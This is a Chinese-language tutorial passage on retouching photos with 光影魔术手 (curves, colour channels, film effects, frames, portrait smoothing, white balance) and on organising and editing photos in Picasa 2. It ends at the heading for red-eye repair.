打开相片后，选择“调整”→“曲线”菜单即可调出“曲线”工具，如图 22 所示，中间那条呈 45 度的线段就是所谓的曲线了，在“曲线”上单击可以产生控制点，通过拖动控制点来使用“曲线”工具。如果用户想删除控制点，可以按键盘上的 Del 按钮；如果想要恢复原始状态，可以单击“曲线调整”对话框里的“复位”按钮。

很多读者对“曲线”工具的使用方法感到疑惑，不知道该怎么对“曲线”进行调整，这首先需要认识“曲线”工具中各个参数及示意图的含义。

图 22 “曲线调整”对话框

下面我们借助辅助图来对“曲线”进行解读，图 23、图 24 中的左红右蓝色图形都是人工绘制的，目的是帮助读者更好地理解“曲线”。

图 23 靠左的“曲线”控制相片的暗部，靠右的“曲线”控制相片的亮部

图 24 往上拉“曲线”，则亮度增加；往下拉“曲线”，则亮度降低

如图 23 所示，左面的区（红色方框中的）表示：落在这个区中的“曲线”，控制的是画面中比较暗的部分，越暗，越靠左面。右面的区（蓝色方框中的）表示：落在这个区中的“曲线”，控制的是画面中比较亮的部分，越亮，越靠右面。简单来说，要对相片的黑暗部分进行调整，就改变左边的“曲线”；反之，要对相片明亮的部分进行调整，就改变右边的“曲线”。

如图 24 所示，如果你把“曲线”拖到上方（红色三角的区域中），那么照片就会比原来更亮；如果你把“曲线”拖到下方（蓝色的区域中），那么照片就会比原来更暗。如果“曲线”一部分在红色的区域中，另一部分在蓝色区域中，那么照片就会一部分更亮，一部分更暗。

上面对“曲线”进行了详细解读，下面我们来用实例看看“曲线”的使用方法。

###### A. 调整亮度

RGB 代表了图像的综合色调。在“曲线”工具中选择 RGB 通道，然后在“曲线”上单击，添加一个或多个控制点，并拖动控制点，把“曲线”向上拉动，就会看到整个照片的颜色变亮了。相反的，往下拖“曲线”，会使照片亮度变低。

如图 25a 所示，相片的光线很暗，是一张典型曝光不足的相片，这是在室内摄影时常常遇见的问题。将“曲线”往上拉（可以多增加几个控制点，尝试一下各种调节效果），可以看到相片亮度显著提高。需要注意的是：提高亮度的时候一定要有度，否则会产生明显的噪点（也就是画面中不规则的彩色杂点）。

图 25a 在室内摄影的作品，光线很暗

图 25c 用曲线将亮度调高后

本例的“曲线”调整如图 25b 所示，最终结果如图 25c 所示。经过“曲线”调节后，可以看到黑暗处的光线得到了很好的改善，而单纯调高亮度是得不到这样自然的效果的。

图 25b 在 RGB 通道下向上拉曲线，可以增加亮度

###### B. 用 S 形“曲线”增加对比度

即将左边的“曲线”向下拉，右边的“曲线”向上拉，就形成了“S”形曲线。经过 S 形“曲线”处理后，原来照片中比较暗的部分，在“曲线”向下拉了以后，就变得比原来更暗了；而原来照片中比较亮的部分，在“曲线”向上拉了以后，就变得比原来更亮了。这样一来，就增加了图像的对比度，加强了明暗对比，又不容易造成亮度合并，效果很好。这种方法在图像处理中常常会用到。

如图 26a、和 26c 所示为使用 S 形“曲线”前后的效果对比，26b 为本例中的 S 形“曲线”的调节方法。

图26c 提高对比度以后的效果，变得有精、气、神了

###### C. R 红色通道的使用方法

在 R 红色通道中调整“曲线”，可以使风景照出现金黄的落日余晖的感觉。

另外，在处理人像照片时不妨加一点红色，这样使皮肤看起来更红润漂亮。

下面来看一个“金色晚霞”效果的制作过程。

如图27a所示为源素材，我们希望让晚霞效果更强烈一些。选择“R 红色通道”，往上拉曲线（图27b），整幅照片都变红了，如图27c所示，这样的效果显然不够自然。

上面的“曲线”调节方法显然不是最好的，我们应该这样处理：将右边“曲线”往上拉，可以使得背景高光部分的天空、晚霞增加红色；保持左边的“曲线”形状尽量不变（图27d所示），使近处暗部的人物和背景尽量不受影响，这样得到的效果比较自然，如图27e所示。

到此时照片的色彩已经很自然很出色了，其实可以不必调整了。但为了练习一下，读者可以试试用“曲线”，在“G绿色通道”和“B绿色通道”下对“曲线”进行调整，可以得到一些比较夸张的色彩效果。

###### D. 增加绿色，打造靓丽少女

仔细观察网上的美女照片，会发现相片都有一点点偏绿。在处理女孩的相片时，在“G绿色通道”下把“曲线”向上拉一点，会出现很好的效果，首先在RGB通道下将相片的亮度和对比度提高一些，然后在“G绿色通道”下将“曲线”往上拉，添加一点绿色调，原始相片和最终效果分别如图28a、28b所示，这种效果是不是很不错呢？

对于通道的使用，最后还要说明最重要的一点：调整数码照片，一定要分不同的通道对曲线进行不一样的调整。不同的通道控制的是不同的颜色，同时对它们进行独立地调整，会令照片的颜色发生奇妙的变化。不同通道对色彩的控制是一种综合作用，相当于调色。例如，红色通道和蓝色通道同时增加，产生的效果是画面变得更紫了。而“RGB 通道”，则是对所有色彩通道同时进行控制调节，这时色彩就不会发生变化，变化的是画面的明暗。

#### 三、给数码相片添加效果

除了基本的改善处理外，我们还可以给数码相片添加各种效果，这些效果包括：反转片、负冲、黑白、旧相、边框等等，这些功能是光影魔术手最吸引广大用户的地方，因为简单的操作即可使制造出各种奇妙的效果，使相片极具艺术气息。

##### 1. 精彩的反转片、负冲效果

“反转片”是光影魔术手最重要的功能之一，通过一个简单的单击动作，就能让相片的色彩变得鲜艳欲滴，强烈推荐广大读者使用。

很多读者对“反转片”这个概念感到好奇，其实不必深究，只要知道光影魔术手中的“反转片”的作用即可：令照片反差更鲜明，色彩更艳丽。

“反转片”有四种模式“素淡人像、真实色彩、艳丽色彩、浓郁色彩”，如图33所示。四种模式的色彩的艳丽程度依次递增。使用时只要单击“反转片”按钮右边的三角形按钮，在弹出的下拉菜单中选择需要的选项即可。读者不妨多次尝试“反转片”效果，可以得到更强烈的反差和更艳丽的色彩效果。

如图34a和34b分别所示为使用了“艳丽色彩”前后的效果。

作者本人非常喜欢“反转片”效果，它能让本来平淡无奇的相片一下变得很出彩，强烈推荐广大读者使用。

“负冲”可以模拟反转负冲的效果，色彩诡异而新奇，非常具有时代感，可以打造出很个性的色彩效果。如图35a、35b所示为使用“负冲”效果前后的相片效果。

在这里要介绍一下光影魔术手从0.21版新增的一个功能——效果消褪。

这个菜单命令位于“编辑”菜单中，快捷键为Ctrl + Shift + F。

“效果消褪”功能的作用是使最后一次特效的效果减弱。例如，你用“反转片”→“浓郁色彩”命令，但是你又觉得颜色太浓了，你想最好能退回去一点，不浓不淡正好。这时你就可以使用“效果消褪”。按 Ctrl + Shift + F 快捷键，打开“效果消褪”对话框（见图36），选择要消褪的“数量”，“数量”越大效果减弱程度越大。可以在工作区中直接预览到效果，效果满意时，单击“确定”按钮即可。

“效果消褪”几乎对所有不改变图像大小的操作都适用，它为用户提供了一种手工改变效果参数的途径，使光影魔术手的功能更加贴心和强大。

##### 2. 富有创意的“黑白”和“旧相”效果

在彩色照片早已普及的今天，黑白照片仍然具有独特的魅力。黑白照片所具有的影调、深层以及让人玩味的意境，带给人们的感觉可以说是彩色照片难以比拟的，黑白照片还能满足人们难以割舍的怀旧情节。尤其是对于一些涉及到人文题材的照片来说，黑白影调的照片更能给人带来心灵的震撼，以及更深层次的感受。

几乎所有的图像处理软件，都能够让我们获得老照片的效果。但要想真正达到专业黑白胶卷的水平，也不是那么容易的一件事情。通过光影魔术手的“黑白”功能，可以模拟多类黑白胶片的效果，在反差、对比方面，和数码相片完全不同。

打开相片后，直接单击工具栏上的“黑白”按钮，即可为相片添加黑白胶片效果。单击“黑白”按钮右边的三角形按钮，在下拉菜单中可以选择更多的黑白效果的色调，包括“褐色”、“湖蓝色”和“紫色”，即可轻松获得不同色调的黑白胶片的效果。

而“旧相”能模拟旧照片的效果，色彩黯淡，营造一种怀旧的情调。单击按钮右边的三角形按钮，在其下拉菜单中选择需要的“旧相”模式，有“冷调泛黄”和“黄色滤镜”两种。如图 38a、38b 所示为使用“冷调泛黄”前后的效果。

##### 3. 最具特色的边框效果

作者认为，光影魔术手的最大亮点之一就是提供了丰富的边框类型，而其中以花样边框最受人们的喜爱，0.22 版更是以支持透明边框而受到大家的热烈欢迎。但需要注意的，边框（和文字）应该是相片处理的最后阶段才加，这样不会影响软件对照片的识别。

下面我们就来看看如何使用光影魔术手来给相片加上边框。

单击工具栏上“边框”按钮右边三角形按钮，在其下拉列表中选择需要的边框类型（见图 39）。

下面以“花样边框”为例，来说明边框的使用方法。

单击“边框”按钮右边的三角形按钮，在下拉菜单中选择“花样边框”，打开“花样边框”对话框（见图 40），默认情况是进入“我的最爱”，这里收集的是最常用的边框，单击喜欢的边框缩略图，即可在工作区预览到边框效果，单击“确定”按钮即可使其生效；单击“我的最爱”，在弹出的下拉列表中选择“全部素材”，则可以使用所有的边框。

用户可以把自己最喜欢的边框收集在“我的最爱”里面，这样就不必每次都从几百个边框中挑花眼了。收藏边框的方法是：在“全部素材”中想要收藏的边框上单击鼠标右键，选择“收藏到我的最爱”命令即可；如果想删除你的收藏，在“我的最爱”中，选择要删除的边框，单击鼠标右键后选择“删除”命令即可。

光影魔术手内置的边框数量有限，可以到官方网站上下载边框素材，可以下载多达 220 个的花样边框，下载的文件名为“nEOiMAGINGframes.exe”，直接双击即可将其安装，这时会弹出一个对话框，提示要覆盖文件，选择“yes to all”即可。

以下是各种边框效果的示例。

*   轻松边框：此类边框的特点是简洁、素雅，以不破坏相片主体为原则。
*   花样边框：特点是花哨，会给作品增色不少，但可能有喧宾夺主的危险，要谨慎使用。
*   撕边边框：可以自由调节所撕边缘的颜色，可以制造出仿古破旧的沧桑感，或者岁月流走，时光积淀的优雅情调。

如果要用 Photoshop 来打造上面的边框的效果，那个工程量是相当巨大的，而且制作难度相当大，绝对非一般家庭用户所可以掌握的。而使用光影魔术手，一个稍懂电脑的人都能快速给自己的相片添加精美的边框，这也是光影魔术手的魅力所在。

#### 四、针对人像的美容功能

数码摄影中，人物摄影占了大部分的比重，而光影魔术手针对人像的美容功能，则能使你的人像照片更加完美无暇。

光影魔术手中，针对人像美容的菜单命令都位于“效果”菜单中，包括：柔光镜、人像/美容、去红眼/去斑（见图45）。

##### 1. 柔光镜

高像素的数码相机，却也有人不喜欢，为什么呢？因为太清晰了！脸上的痘痘和黑斑都看得很清楚呢……仔细看看数码艺术摄影或者婚纱摄影，可以发现他们经常会把顾客的面部修饰得很柔和，白里透红，这样也就看不到脸上的瑕疵了，使用 Photoshop 软件的话，这种处理技术需要一段时间的学习才可以掌握的。其实，借助光影魔术手的“柔光镜”，即使是最初的菜鸟也可以轻松实现这种效果。

“柔光镜”可以模拟柔光镜片，给人像带来朦胧美，很适合人像照片的处理，可以制作雨雾濛濛的风景、光线朦胧的小品、浪漫风格的人像等效果。

光影魔术手的“柔光镜”是在普通的模糊柔光的 PS 方法的基础上进行了改良。针对明暗部进行参数优化，比较智能化。

选择“效果”→“柔光镜”命令，可以看到“柔光镜”命令有两个参数：柔化程度和高光柔化。
如图46a、46b所示为“柔光镜”使用前后的效果。

##### 2. 人像美容

皮肤粗糙怎么办？使用光影魔术手的“人像美容”功能！

人像美容=人像磨皮+柔光镜，它可以自动识别人像的皮肤，把粗糙的毛孔磨平，令肤质像婴儿一样细腻白晰，同时可以选择加入柔光的效果，产生朦胧美。处理时，对皮肤以外的如眼睛、头发等细节尽量保留原始细节，不影响其锐度。原来网上漂亮 MM 的细腻肌肤来得如此容易！

为了更好地展示“人像美容”功能的效果，我们特意选择了一张大头像来进行示范。

这里告诉读者一个技巧：如果皮肤上有比较大的色斑、黑痣等杂点影响磨皮效果，则可以利用光影魔术手的另一功能“去斑”先把痣点去除，然后再精细磨皮，这样效果更佳。

在本例中，图47a所示为原图，首先使用“去斑”功能将面部的色斑和黑痣去掉，然后再使用“人像美容”功能对皮肤进行细化，如图47b所示，最终结果如图47c所示。

##### 3. 去红眼/去斑

“红眼”这个术语实际上是针对人像摄影的。在外界光线很暗的条件下人的瞳孔会相应变大，当闪光灯的闪光透过瞳孔照在眼底时，密密麻麻的微细血管在灯光照应下显现出鲜艳的红色所反射回来，相片中人物的眼睛看上去就有了“红点”，这种现象就是“红眼”。
现在很多相机都标明自己能够完全消除红眼现象，很多相机都标明自己能够完全消除红眼现象，但是实际上并不能做到完全消除，所以还是需要后期处理。

#### 五、矫正偏色的相片

我们知道，数码相机拍出来的相片经常会出现出现偏色的现象；如在日光灯的房间里拍摄的照片会显得发绿，而在日光阴影处拍摄到的照片会偏蓝。当在钨丝灯下拍摄、舞台灯光拍摄、DSLR室内拍摄时，很容易出现偏色的情况；有时候拍摄仓促，来不及定制白平衡，就匆匆下手，也极易造成照片的严重偏色。

为什么会出现这种情况呢？最主要的原因是数码相机的白平衡功能。一般来说，如果在用数码相机进行拍摄的时候没有正确地设置数码相机的白平衡，或现场的光线环境比较复杂，使得相机本身的自动测光系统无法正确判断该用何种白平衡设定，这样就容易出现照片偏色现象。

使用光影魔术手矫正偏色相片的方法有三种：自动白平衡、严重白平衡错误校正、白平衡一指键。如图29所示，这三个命令都位于“调整”菜单中。

在校正偏色的时候，如果偏色程度较轻，建议先使用“自动白平衡”，如效果不佳再使用“白平衡一指键”来进行详细校正；而如果遇见那种偏色很严重的照片，则应该使用“严重白平衡错误校正”，再使用“白平衡一指键”进行详细校正。实际上，严重偏色的照片，某些颜色已经严重溢出了。使用传统的方法要挽救回来是比较困难的。不过不要着急，光影魔术手的“严重白平衡错误校正”一定会给你一个惊喜的。如图30a即为一张偏色较为严重的相片，选择“严重白平衡错误校正”后，偏色得到了较好的校正，如图30b所示。

“自动白平衡”和“严重白平衡错误校正”的使用都很简单，一个菜单命令即可完成，下面来介绍一下“白平衡一指键”的使用方法。

在使用“白平衡一指键”时，用户只要能从画面中找到“无色物体”，就能还原真实色彩。“无色”物体就是指白色、灰色、和黑色，例如，东方人的眼睛、牙齿、头发，风景如水泥地面、白墙、灰树皮，物体如碗、纸等，当指定选色目标后，软件就知道颜色的标准，就会根据你的信息进行进一步的色彩校正了。

如图31的“原图”所示，这张相片明显偏红。这张相片是在夜晚室内拍摄的，没有使用闪光灯，这种情况很常见。

具体校正方法如下：选择“调整”→“白平衡一指键”菜单，使用十字形光标，在原图中单击“无色”物体，比如小女孩裙子上的白色花边或头发，这时可以看到右边的预览图中，偏色已经得到很好的校正，这时单击“确定”按钮并保存即可。如果对色彩比较熟悉，也可以单击“RGB校正”来校正相片偏色。

又如图32所示，原图是一张清晨拍摄的相片，明显偏蓝了，使用“白平衡一指键”，在画面上的灰色物体上单击，可以看到偏色得到了很好的修复。

多数码相机的闪光灯都带有红眼消除模式，难道真的可以避免这个令人烦恼的现象吗？很遗憾，事实上现在没有一款相机能够做到这一点。它们能够做到的只是在某种程度上减轻该现象的影响，当然有些相机的确做得不错，但是红眼现象的确依然存在。

用光影魔术手的“去红眼”功能可以很方便地去除红眼，打开有红眼现象的相片（图48a），选择“效果”→“去红眼/去斑”菜单，调节“光标半径”为适合的数值，然后用光标在红眼上小心涂抹，将红眼还原成黑色即可（图48b），最终效果如图48c所示。整个操作过程很方便，因为光影魔术手会自动判断红眼部分，一般不会影响到眼皮、睫毛等的颜色。

#### 五、其他实用功能

随着版本的不断更新，光影魔术手的功能变得更加强大。本文已经介绍了大部分光影魔术手的实用功能，作为抛砖引玉之用。下面再介绍一些光影魔术手的实用功能，其余细节部分，还需要读者在实践中不断挖掘。

除了“反转片、负冲、黑白、旧相”等效果，光影魔术手还能为照片添加很多特效，其中作者认为比较实用，效果也很吸引人的有“影楼风格人像”和“Lomo风格模仿”和“晚霞渲染”等效果。这里将会一一介绍。读者不妨再去试试“效果“菜单里的其他效果，如”电视扫描线“，使用方法都很简单。

除此之外，作者要推荐的光影魔术手的功能还包括“证件照片冲印排版”和“制作多图组合”。

##### 1. 影楼风格人像照

发现没有？影楼拍的人像，不管人长得什么样子，拍出来皮肤都超白，特别朦胧、特别具有艺术感。不管你是否喜欢这种风格，但很多MM喜欢。使用光影魔术手的“影楼风格人像”功能，一秒钟就能模仿出那种冷艳、唯美的感觉，很适合广大爱美的MM们。

选择“效果”→“其他特效”→“影楼风格人像照”菜单，打开“影楼风格”对话框，在“色调”中选择“冷蓝”、“冷绿”、“暖黄”和“复古”，调节“力量”获得比较好的效果后单击“确定”按钮即可。

##### 2. Lomo风格模仿

喜爱摄影的读者可能知道Lomo这个名词。其实简单说来，Lomo是前苏联的间谍专用相机，它拍摄的色彩与普通相机拍摄的不一样，缺点就是容易失真，明暗调子对比度高。Lomo相机拍摄的相片色彩强烈，它还有一种特殊的“隧道效果”：照片的四周会显得比中间暗很多，会形成暗角。

今天，Lomo已经成为最受年轻人欢迎的摄影工具之一，Lomo已经从原来的间谍器材，变成了一种拍摄理念甚至是一种摄影风格乃至生活方式。

使用光影魔术手，可以轻易模拟出Lomo风格，让你也能体验这种时尚的摄影风格。

选择“效果”→“风格化”→“Lomo风格模仿”菜单，弹出如图50b所示的对话框，得到的效果如图50c所示。

##### 3. 证件照片冲印排版

使用此功能，可以很方便自己进行证件照排版，在一张5寸或者6寸照片上排多张1寸或者2寸照，支持身份证大头照排版、支持护照照片排版，还可以进行1寸2寸混排、多人混排。

在光影魔术手中打开相片后，选择“工具”→“证件照片排版冲印”命令，如图51所示，根据需要选择“排版样式”，这时在右边窗口可以预览到排版效果；如果要同时进行两张照片的冲印排版，则可单击“输入照片2”，选择照片并进行裁剪，选择排版样式并单击“预览”按钮，可以看到两张照片的排版效果。最后单击“确定”按钮，即可得到排版好的相片，将这个相片保存并冲印即可。

##### 4. 制作多图组合

制作组合图的功能是专门为在网络上开店的用户制作的。可以轻松地把很多张照片合并成一张大照片，用于陈列说明商品、或者用于组图制作。使用时可以同时打开很多张照片，还可以对小照片分别进行简单的特效处理（如反转效果）。

提示：在小图上用右键可以调出很多特效。

选择“工具”→“制作多图组合”命令，打开“组合图制作”窗口（见图52），在上方选择要制作的多图组合的布局类型，然后单击各个图框载入相片，在小图上单击鼠标右键，可以分别对每个小图进行裁剪或使用特效，最后设定“较长边”的像素，单击“确定”按钮获得多图组合。

用户也可以单击“照片随机单色化”按钮（最后一个按钮，带三种颜色的圆盘），使组合获得随机单色化的效果，作者本人很喜欢这种效果，如图52、53所示。

##### 5. IE魔术图

这是一个比较有趣的工具。它可以把彩色的照片转变成黑白，然而，在IE中按Ctrl+A键选中这张图片时，图片又会神奇地从黑白变成彩色！现在，你只需要几秒钟就可以制作这种神奇的变色图了！

在光影魔术手中选择“工具”→“IE魔术图”菜单，下面有两个菜单：“黑白魔术图”和“隐藏魔术图”。

“黑白魔术图”的功能是创建黑白的PNG格式的图像，在IE中选中图片时，又会变成彩色的。而“隐藏魔术图”的功能则是创建这么一种图像：在IE中查看是一张图片，选中图片后又会显示另一张图片。

打开图片后，选择“工具”→“IE魔术图”→“黑白魔术图”菜单，即可预览到图像的黑白效果（见图54），单击“预览”按钮，即可看到在IE中选中图片后的彩色效果。选中“导出后运行IE”菜单并单击“导出”按钮，将创建的“魔术图”保存为PNG格式，并在IE中将其打开，此时按Ctrl+A键即可欣赏到神奇的“魔术图”效果。

注意：由于JPG/JPEG是有损压缩，因此此类照片不能选择JPG格式保存，应该选择PNG真彩格式保存。

而“隐藏魔术图”的制作也很简单，不同的是需要选择前景照片和隐藏的相片：分别在“指定前景照片”和“指定隐藏照片”的略图上单击并选择照片，设定各选项后单击“导出”按钮即可。

“IE魔术图”是一个很有趣的功能，读者不妨多试试。

经过上面的讲解，想必读者已经对光影魔术手的简单操作和强大功能有了很深刻的印象，想要迫不及待地去尝试一下。

掌握了本文所讲解的这些操作，哪怕是爷爷奶奶级的电脑用户也可以轻松“玩转”数码相片。光影魔术手这个软件真的很棒！我那个只会打打字聊聊天的姐姐曾经学习过Photoshop，经过一阵辛苦和努力后她放弃了。在我将光影魔术手介绍给她后，她也能制作出一些让人惊叹、绚丽的数码相片效果了！

为了照顾一些电脑基础较差的读者，本文不遗余力地讲解了使用光影魔术手处理数码相片的方法和技巧，细化了每一个细节。虽然本文可能略显罗嗦，不过我相信，每一个数码相片处理的入门用户，在本文的指引下都能轻松玩转光影魔术手！

后记：在本文发布之时，光影魔术手已经发布了0.23版，增加了一些新功能，读者可以去下载并进行体验。

### 第二篇 管理和处理数码相片的利器——Picasa 2

很多数码摄影爱好者都有这样的烦恼：随着电脑硬盘里存放的数码相片数量的增多，管理它们也越来越困难，为了找到某一张相片，要花费不少的时间。其实这种情况是可以轻松改变的，本节就为你介绍一款优秀的数码相片管理和编辑软件——Picasa 2。

Picasa 2 是 Google 研发的一款可帮助你在计算机上立即找到、修改和共享所有图片的软件，它具有整理、修改、共享、打印、备份以及创建六大功能。Picasa 原来是价值 29 美元的商业软件，后来被 Google 收购后并大方地供用户免费使用。Picasa 2 界面华丽，功能丰富实用，相信你一定会对它一见倾心。

Picasa 2 的功能简介如下：

-   查找并整理计算机上的所有图片，即使你自己已经遗忘的图片。
-   使用一些按钮，快速轻松地裁减、消除红眼、修正对比度和颜色以及增强你的数码照片的效果，通过简单的单击动作即可获得震撼性的润色效果。
-   即刻发布图片到网站、电子邮件给朋友，Picasa 的 BlogThis! 按钮可将图片自动传到博客。
-   高质量打印图片，或直接订购冲印服务。
-   实现图片的轻松备份，将图片刻录到 CD 或 DVD；可毫不费力地为朋友或家人创建带有幻灯放映演示的 CD。
-   用照片制作图片拼贴、海报、屏保，以有趣、独具创意的方式欣赏你的图片！

Picasa 2 的主页为 picasa.google.com，最新中文版为 V2.2 版，整个安装文件只有 4.3 MB，安装过程也非常简单；目前最新的 Picasa 版本为 2.5 英文版，还没有在 Google 网站上提供下载。本文中我们介绍 V2.2 中文版。

#### 一、浏览和管理数码相片

第一次运行 Picasa 2 的时候，Picasa 2 会进行初始图片扫描并自动建立图片数据库（见图 1），扫描图片操作并不会更改图片的实际位置，或对图片造成任何影响。

一般情况下，建议选择‘全面扫描计算机查找图片’，对电脑中的图片进行全面扫描，这样往往可以发现一些你早已遗忘的数码相片。如果电脑中的图片较多，这个扫描时间会比较长。

扫描完成后，可以看到 Picasa 的浏览界面（见图 2），跟大家熟悉的 ACDSee 的‘浏览模式’界面比较类似。左边是图片所在的文件夹和位置，这些文件夹是按时间排序的。右边是预览区，可以很方便地查看图片的缩略图，单击上下箭头按钮、拖动垂直控制条、按 Page Up 或 Page Down 键，都可以向上或向下浏览图片；单击上下的按钮，可以浏览上一个（或下一个）文件夹里的图片。

提示：我们知道，新版本的 ACDSee 在图片浏览的速度上有了很大的提高，但是仍然不能瞬间显示所有图片的缩略图。可以说，基本上所有的图片浏览器都存在这样的问题，特别是浏览含有大量图片的文件夹时这一问题显得更为突出。而 Picasa 浏览图片时，根本感觉不到有任何停滞，这是因为 Picasa 采用了全新的缓存机制，这一缓存机制从根本上解决了图片浏览的速度问题。

在浏览模式下可以很方便地对照片进行旋转，在要旋转的照片上单击鼠标右键，选择‘顺时针旋转’或‘逆时针’旋转命令即可（见图 3）。

单击‘幻灯片演示’按钮可以进入全屏演示状态，以幻灯片模式浏览相片（见图 4）。此时可以通过下面的控制栏来控制图片的播放，也可以按左右方向键来控制播放。要退出幻灯片演示模式，可以按 Esc 键或单击‘退出幻灯片演示’按钮。另外，如果相片有翻转的情况，可以单击左或右翻转按钮使图片旋转到正直状态。

如果你想按时间顺序浏览图片，可以单击工具栏上的‘按时间顺序’按钮，然后选择某个时间的相册并双击进入，即可按‘幻灯片演示’模式浏览这个时间段内的图片了。

在浏览模式下，双击缩略图可进入编辑模式，以便对图片进行编辑（见图 5）；再次双击图片或单击‘返回图片库’按钮又可以返回浏览模式。

下面讲解 Picasa 2 强大的数码相片管理功能。

##### 1. 调整将显示哪些图片和文件夹

经过 Picasa 的全面扫描后，电脑中的所有图片都会在 Picasa 中显示，甚至会包括一些临时文件夹和软件的安装文件里的图片，这会降低用户对数码相片的管理效率，我们需要更有针对性一些，给 Picasa 指定要管理哪些文件夹里的图片。

Picasa 没有“打开→文件”之类的菜单，只有被 Picasa 扫描的文件夹才会出现在 Picasa 主界面左边的图片集中。要修改 Picasa 扫描图片的位置，请选择“工具→文件夹管理器”命令，在打开的“文件夹管理器”对话框中选择或取消选择 Picasa 将扫描的文件夹。可选择以下选项：“扫描一次”、“从 Picasa 删除”及“总是扫描”。假如本机中的照片都放在 D 盘，这时我们就选择只扫描 D 盘的照片（建议选择“总是扫描”，而不是选择“扫描一次”，此后 Picasa 会时刻监视这个文件夹中图片的更新情况，一旦有新图片，立刻会被加入 Picasa 图片库中），而其余文件夹都“从 Picasa 删除”，如图 6 所示。

提示：监控整个驱动器会造成系统资源的浪费，更好的做法应该是选择监控驱动器下存放图片的具体文件夹。

##### 2. 在文件夹间移动图片

你还在 Windows 的资源管理器中移动相片吗？试试在 Picasa 中移动相片吧，操作更直观，更简单。选择要移动的图片，使用鼠标将图片拖放到新文件夹中。要选择多张图片，可在选择时按住键盘上的 Ctrl 或 Shift 键。移动图片时，Picasa 会提醒你将要移动硬盘上的实际文件，单击“是”按钮可将图片移动到新位置（见图 7）。

注意：在“磁盘上的文件夹”图片集中的文件夹间移动图片，将会影响其在硬盘上的实际位置，等同于在“Windows 资源管理器”或“我的电脑”中进行图片移动。

##### 3. 修改文件夹说明

前面我们讲过，Picasa 扫描图片文件后，在左边的图片集中是按日期和时间来排序的，如 2006、2005、2004……等，它们代表了这些图片的拍摄时间，但是 Picasa 自动识别的日期和时间可能不准确。例如，某个文件夹显示在“1980”日期下，实际上这个文件夹里的相片是 2006 年拍摄的，那么该如何使其显示在“2006”日期下呢？这时我们可以修改文件夹说明来使得图片文件夹排序更准确、合理。

双击左边图片集中的目标文件夹，打开“文件夹属性”对话框，然后输入新说明。你可以修改文件夹的日期、拍摄地点或标题。你添加的任何说明信息都可在 Picasa 中搜索，所以这里输入的关键字要准确。

如图 7 所示，将“日期”改为实际拍摄日期，单击“确定”按钮后，这个文件夹就会自动排列到“2006”日期下了。

注意：在 Picasa 中更改文件夹名称，将会更改硬盘上的实际文件夹名称。

##### 4. 从文件夹中删除图片

在图片上单击鼠标右键，在弹出的菜单中选择“从磁盘删除”命令，此时 Picasa 会提醒：“你确定要将选定的文件发送到回收站吗？（这也会将它从所显示的标签中删除）”。单击“是”按钮删除图片。也可以选定图片后，直接按键盘上的 Delete 键将其删除。

##### 5. 快速查找某张相片

如果你在 Picasa 2 浏览模式下的搜索框中输入了文字，Picasa 将搜索图片文件的 EXIF/相机数据、关键字、标签以及你在此程序中输入的任何其他属性或标题。例如图 8 所示的文件夹属性中，将“拍摄地”定义为“home”，则只要在搜索框中输入“home”，就能查到本文件夹中的相片；而输入文件夹关键字，比如“小明”也能找到此文件夹。又如，在搜索栏中输入“nikon”，则 Picasa 会自动显示所有使用 Nikon 相机拍摄的图片及其所在文件夹；输入“Canon”将会自动显示所有使用 Canon 相机拍摄的图片及其所在文件夹；输入“动物”则自动查找到本机上的“动物园”图片文件夹。

另外其他工具用法如下：
-   “已加星标”按钮。使用此按钮只能查找标记了星级的图片。
-   “电影”按钮。使用此按钮只能查找图片库中的电影文件类型。
-   日期滑块。向左或向右移动滑块可根据图片日期快速减少搜索结果的数量。

#### 二、简单易用的图像编辑功能

Picasa 2 不仅能让你轻松管理硬盘上的数码相片，还可以对数码相片进行编辑和改善工作。Picasa 2 的图像处理功能特地针对广大用户最常用的功能做了优化，使得日常的相片处理更加简单，功能更加强大。Picasa 2 把用户最常用的功能都集成到了一个界面中，用户只要通过使用一些简单的按钮操作就能快速轻松完成平时最常见的照片编辑工作。

##### 1. 基本修正

“基本修正”包括：剪裁、拉直、红眼、手气不错、自动调整对比度、自动调整颜色、补光等选项（见图10），这些选项的作用和Photoshop、光影魔术手等软件基本一致，使用方法也很简单，完全可以触类旁通。其中“手气不错”是有Google特色的命令，通过一次单击即可自动调节亮度和修正颜色。如果你懒得调整图片效果，可以使用这个功能，只要单击一下鼠标，Picasa会自动对图片进行优化处理。Picasa 2的设计比较人性化，在进行某项编辑操作后，用户可以单击“撤销XX”和“恢复XX”按钮来撤销或恢复对相片的编辑操作。

###### (1) 拉直

拉直也就是在一定范围内旋转图片，让图片呈直立状态。在Picasa 2的编辑模式下可进行旋转的角度较小。那么如果图片呈水平翻转、垂直翻转等大角度旋转状态呢？上面已经讲过了，在浏览模式或“幻灯片演示”模式中，都可以90度为单位对图片进行顺、逆时针旋转。图11为一张倾斜的相片，单击“拉直”按钮，图片上会出现网格以帮助用户定位图片旋转的角度，拖动下方的滑标让图片顺、逆时针旋转，将图片调整为直立状态后单击“应用”按钮即可（见图12）。在旋转图片的时候，可以参考图像中本应处于竖直或水平状态的对象，本例参考了树后面的灯杆。

几乎每个图形图像处理软件都可以旋转图片，那么Picasa 2的“拉直”功能有什么独特之处呢？用别的图形图像软件旋转图片后，图片会出现白色空白区域，还需要进行裁剪工作，这在前面介绍光影魔术手时已经介绍到了。而Picasa 2在对相片进行拉直后，还会自动修剪图片，不会出现白色空白区域，不过这必然要剪去图片中的一些区域，细心的读者会发现经过“拉直”处理后，图片中物品的比例会变大一些，这是因为图片尺寸被修剪变小的缘故。

要提醒广大读者注意的是：在Picasa中编辑相片后单击了“保留”按钮，在Picasa中浏览看到修改已经生效了，但是在用别的看图软件（比如Windows XP自带的“Windows图片和传真查看器”）打开相片时，却发现相片根本没有修改过，还是原来的样子，这是怎么回事呢？

这是因为，在用Picasa修改相片后，要使用“文件→将文件导出到文件夹”命令，或者单击主界面下方的“导出”按钮将修改后的相片导出，才能应用修改操作并导出相片，而原图不会有任何变化，而且在Picasa中进行的修改操作，也可以随时撤销。Picasa默认将修改后的相片另存到原图所在文件夹中（见图13）。导出时，用户可以指定图片的宽度，选择图片质量等。注意：如果要减小图片尺寸，建议通过减小图片尺寸来实现，而不是通过降低图片质量来实现。

Picasa这么设计的目的是为了保留原图，以免对图片进行直接修改后无法还原。在Picasa中进行相片编辑时，单击“保留”按钮将编辑操作保留下来，以后可以随时撤销，也可以随时导出修改后的相片，非常方便。

###### (2) ‘红眼’修复

